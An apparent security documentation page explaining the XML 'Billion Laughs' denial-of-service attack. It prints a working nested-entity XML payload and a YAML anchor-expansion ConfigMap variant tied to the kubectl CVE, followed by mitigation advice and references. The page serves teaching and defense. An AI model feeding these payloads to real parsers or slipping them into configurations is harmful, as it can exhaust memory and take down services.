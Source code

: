 ```yaml
---
title: XML Bomb
sidebar_position: 7
---
```


# XML Bomb Attack

## The Attack


<iframe width="100%" height="450"
src="https://www.youtube.com/embed/WQUiub2hc0c">
</iframe>



### Classic "Billion Laughs" attack

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```



### Variations for "Billion Laughs" attack

As an example of a YAML configuration file with [the same vulnerability that affected kubectl (CVE-2019-11253)](https://github.com/kubernetes/kubernetes/issues/83253):

```yml
apiVersion: v1
data:
  a: &a ["web","web","web","web","web","web","web","web","web"]
  b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
  c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
  d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
  e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
  f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
  g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
  h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
  i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
kind: ConfigMap
metadata:
  name: yaml-bomb
  namespace: default
```

## The solution

Use less complex data formats such as JSON.

## Mitigation

In case that you must need to use XML...

> Be sure to follow the principle of attack surface reduction and disable entity expansion if you don’t require its use. Otherwise, apply appropriate defenses to limit the maximum amount of time and memory your application can spend on it.  
> Bryan Sullivan


### Refs
- [Wikipedia | Billion laughs attack](https://en.wikipedia.org/wiki/Billion_laughs_attack)
- [Microsoft | Security Briefs - XML Denial of Service Attacks and Defenses](https://docs.microsoft.com/en-us/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses)